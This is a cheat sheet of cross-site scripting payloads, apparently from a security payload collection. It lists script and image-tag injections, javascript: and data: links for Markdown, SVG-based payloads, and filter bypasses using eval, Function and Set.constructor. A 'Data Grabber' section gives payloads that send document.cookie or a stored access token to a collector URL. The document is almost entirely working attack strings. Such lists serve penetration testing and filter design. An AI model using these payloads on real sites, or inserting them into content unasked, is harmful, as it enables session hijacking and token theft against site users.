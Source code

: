 # XSS in HTML Applications

- `<script>alert('XSS')</script>`
- `<scr<script>ipt>alert('XSS')</scr<script>ipt>`
- `"><script>alert("XSS")</script>`
- `"><script>alert(String.fromCharCode(88,83,83))</script>`
- `<img src=x onerror=alert('XSS');>`
- `<img src=x onerror=alert('XSS')//`
- `<img src=x onerror=alert(String.fromCharCode(88,83,83));>`
- `<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>`
- `<img src=x:alert(alt) onerror=eval(src) alt=xss>`
- `"><img src=x onerror=alert("XSS");>`
- `"><img src=x onerror=alert(String.fromCharCode(88,83,83));>`

# XSS in Markdown

- `[a](javascript:prompt(document.cookie))`
- `[a](j a v a s c r i p t:prompt(document.cookie))`
- `[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)`
- `[a](javascript:window.onerror=alert;throw%201)`

# XSS in SVG

- `<svg xmlns='http://www.w3.org/2000/svg' onload='alert(document.domain)'/>`
- `<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>`
- `<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>`
- `<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>`

# Data Grabber for XSS

- `<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>`
- `<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>`
- `<script>new Image().src='http://localhost/cookie.php?c='+document.cookie;</script>`
- `<script>new Image().src='http://localhost/cookie.php?c='+localStorage.getItem('access_token');</script>`

# Bypass word blacklist with code evaluation

- `eval('ale'+'rt(0)');`
- `Function('ale'+'rt(1)')();`
- `new Function\`alert\`6\`\``;
- `setTimeout('ale'+'rt(2)');`
- `setInterval('ale'+'rt(10)');`
- `Set.constructor('ale'+'rt(13)')();`
- `Set.constructor\`alert(14)\`\`\``;